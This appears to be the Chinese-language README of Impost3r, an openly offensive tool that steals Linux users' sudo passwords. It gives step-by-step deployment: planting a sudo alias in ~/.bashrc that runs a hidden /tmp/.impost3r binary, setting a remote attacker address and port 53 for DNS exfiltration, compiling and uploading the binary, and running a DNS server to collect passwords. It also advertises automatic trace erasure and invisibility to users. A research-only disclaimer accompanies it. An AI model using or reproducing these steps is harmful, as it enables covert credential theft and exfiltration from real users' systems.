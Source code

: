 ![imposter.png](https://github.com/ph4ntonn/Impost3r/blob/master/img/Impost3r.png)

# Impost3r

[![GitHub issues](https://img.shields.io/github/issues/ph4ntonn/Impost3r)](https://github.com/ph4ntonn/Impost3r/issues)
[![GitHub stars](https://img.shields.io/github/stars/ph4ntonn/Impost3r)](https://github.com/ph4ntonn/Impost3r/stargazers)
[![GitHub forks](https://img.shields.io/github/forks/ph4ntonn/Impost3r)](https://github.com/ph4ntonn/Impost3r/network)
[![GitHub license](https://img.shields.io/github/license/ph4ntonn/Impost3r?label=license)](https://github.com/ph4ntonn/Impost3r/blob/master/LICENSE)

Impost3r是一个利用C语言编写,用来窃取linux下sudo密码的工具

用户可使用此程序在普通用户权限下，制造水坑，窃取合法用户的sudo密码

> 此工具仅限于安全研究和教学，用户承担因使用此工具而导致的所有法律和相关责任！ 作者不承担任何法律和相关责任！

## 特性

- 自动擦除行为痕迹
- 通过DNS协议传输结果
- 用户无感

## 依赖

- gcc

## 使用方法

- 首先假设攻击者控制了一台服务器，权限为普通用户权限

- 拷贝一份用户的.bashrc```cp ～/.bashrc /tmp/```，并将这份副本放在攻击者自定义的路径下(本例中放置在/tmp/目录下，攻击者可以修改)

- 修改用户根目录下的.bashrc(～/.bashrc)，在最后一行添加如下语句：

```
alias sudo='impost3r() {
if [ -f "/tmp/.impost3r" ]; then
/tmp/.impost3r "$@" && unalias sudo
else
unalias sudo;sudo "$@"
fi
}; impost3r'
```

- 添加完成后，保存文件并执行```source ~/.bashrc```

- 接着攻击者需要对Impost3r源代码进行修改：

```
# define MAX_RESEND 30  \\设置当窃取到密码之后，Impost3r向攻击者服务器发送用户密码的最大重试次数
# define RESEND_INTERVAL 5  \\设置每一次发送密码的间隔
# define FILENAME "/tmp/.impost3r"  \\设置Impost3r在目标服务器上的位置
# define BACKUP_BASHRC "/tmp/.bashrc" \\设置攻击者备份的源.bashrc在目标服务器上的位置
# define REMOTE_ADDRESS "192.168.0.12" \\设置回送密码的远程地址
# define REMOTE_PORT 53 \\设置回送密码的远程端口
```
- 修改完成后，保存并在当前目录执行```make```

- 在当前目录下得到编译完成的```.impost3r```文件

- 上传```.impost3r```文件至目标服务器的```/tmp/```文件夹下(仅为示例，可自行修改，只需与源代码中定义相同即可)

- 攻击者在自己的服务器上启动dns服务端程序，等待合法用户使用```sudo```后获取密码。

## 窃取效果

<img src="https://user-images.githubusercontent.com/45198234/83401306-1e7ebb80-a437-11ea-9a13-d13b0635bf4f.gif" width="1200" >

## 注意事项

- Dns服务端程序我使用的是[Fdns](https://github.com/deepdarkness/Fdns)，并修改了一部分参数，大家可在文件夹Fdns下找到修改后的源代码，请自行利用命令```gcc -o dns main.c util.c```编译,当然，也可以用别的dns服务端程序，这里并不受限，但是必须是会回复dns response的服务端程序，而不是仅解析dns request。
- 程序窃取密码成功后将会自动擦除痕迹，并不需要攻击者上去手动清理
- 此程序仅是闲暇时开发学习，功能可能存在bug，请多多谅解，也欢迎反馈问题

### 致谢

- [Fdns](https://github.com/deepdarkness/Fdns) 
